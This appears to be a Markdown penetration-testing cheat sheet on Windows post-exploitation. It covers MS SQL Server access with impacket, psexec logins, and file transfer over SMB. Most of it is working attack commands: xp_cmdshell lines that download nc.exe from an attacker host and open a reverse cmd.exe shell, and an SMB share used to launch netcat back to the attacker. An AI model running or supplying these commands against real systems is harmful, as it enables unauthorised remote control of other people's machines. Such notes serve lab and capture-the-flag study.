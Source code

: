# Windows Specific {-}

## MS SQL Server {-}

For accessing to **MS SQL SERVER**, you can use `mssqliclient.py` utility from the impacket package that is available on kali or that you
can clone from the [impacket github repository](https://github.com/SecureAuthCorp/impacket).

```bash
locate mssqlcli
python3 mssqlclient.py -windows-auth <user>:<password>@10.10.10.10
SQL>
```

1. check if db user have sysadmin priviledges

    ```bash
    select IS_SRVROLEMEMBER('sysadmin', '<user>')
    ```
    if output is **1**, that means that the user is a priviledged user on the system

2. execute commands

    ```bash
    EXEC xp_cmdshell 'echo %cd%'
    xp_cmdshell powershell wget http://10.10.10.11:8000/nc.exe -OutFile %TEMP%\nc.exe
    xp_cmdshell powershell "%TEMP%\nc.exe -nv 10.10.10.11 443 -e cmd.exe
    ```

## Connect to machine with PSEXEC {-}

**psexec** is a tool from the impacket package. You can use it to connect to windows machines with a user and password.

```bash
python psexec.py <user>@10.10.10.10
```

## Send files to windows machine {-}

### Share SMB directory to Windows Machine {-}

Imaging we want to execute nc.exe on the Windows machine but this one don't have **nc.exe**. We can download nc.exe and execute
it by sharing a SMB folder.

1. On attacker machine

    ```bash
        impacket-smbserver smbFolder $(pwd) -smb2support
    ```

1. On windows machine

    ```bash
    \\10.10.10.10\smbFolder\nc.exe -e cmd 10.10.10.10 443
    ```
